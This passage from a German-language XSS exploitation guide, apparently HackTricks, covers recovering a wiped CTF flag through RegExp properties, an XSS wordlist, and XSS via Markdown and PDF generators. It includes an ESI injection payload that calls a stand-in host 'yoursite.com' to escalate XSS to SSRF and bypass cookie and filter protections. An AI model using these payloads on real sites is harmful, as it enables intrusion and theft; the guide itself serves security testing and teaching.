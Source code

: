 Aus [**diesem Bericht**](https://blog.arkark.dev/2022/11/18/seccon-en/#web-piyosay) ist es möglich zu lernen, dass selbst wenn einige Werte aus JS verschwinden, es immer noch möglich ist, sie in JS-Attributen in verschiedenen Objekten zu finden. Zum Beispiel ist es möglich, einen Eingabewert eines REGEX zu finden, nachdem der Wert der Eingabe des Regex entfernt wurde:
```javascript
// Do regex with flag
flag="CTF{FLAG}"
re=/./g
re.test(flag);

// Remove flag value, nobody will be able to get it, right?
flag=""

// Access previous regex input
console.log(RegExp.input)
console.log(RegExp.rightContext)
console.log(document.all["0"]["ownerDocument"]["defaultView"]["RegExp"]["rightContext"])
```
### Brute-Force Liste

{% embed url="https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/xss.txt" %}

## XSS Ausnutzung anderer Schwachstellen

### XSS in Markdown

Kann Markdown-Code injiziert werden, der gerendert wird? Vielleicht kannst du XSS erhalten! Überprüfe:

{% content-ref url="xss-in-markdown.md" %}
[xss-in-markdown.md](xss-in-markdown.md)
{% endcontent-ref %}

### XSS zu SSRF

Hast du XSS auf einer **Seite, die Caching verwendet**? Versuche, **das auf SSRF zu aktualisieren** durch Edge Side Include Injection mit diesem Payload:
```python
<esi:include src="http://yoursite.com/capture" />
```
Verwenden Sie es, um Cookie-Einschränkungen, XSS-Filter und vieles mehr zu umgehen!\
Weitere Informationen zu dieser Technik finden Sie hier: [**XSLT**](../xslt-server-side-injection-extensible-stylesheet-language-transformations.md).

### XSS in dynamisch erstellten PDF

Wenn eine Webseite ein PDF mit benutzergesteuerten Eingaben erstellt, können Sie versuchen, den **Bot zu täuschen**, der das PDF erstellt, um **willkürlichen JS-Code auszuführen**.\
Wenn der **PDF-Ersteller-Bot** eine Art von **HTML** **Tags** findet, wird er diese **interpretieren**, und Sie können dieses Verhalten **ausnutzen**, um ein **Server XSS** zu verursachen.

{% content-ref url="server-side-xss-dynamic-pdf.md" %}
[server-side-xss-dynamic-pdf.md](server-side-xss-dynamic-pdf.md)
{% endcontent-ref %}
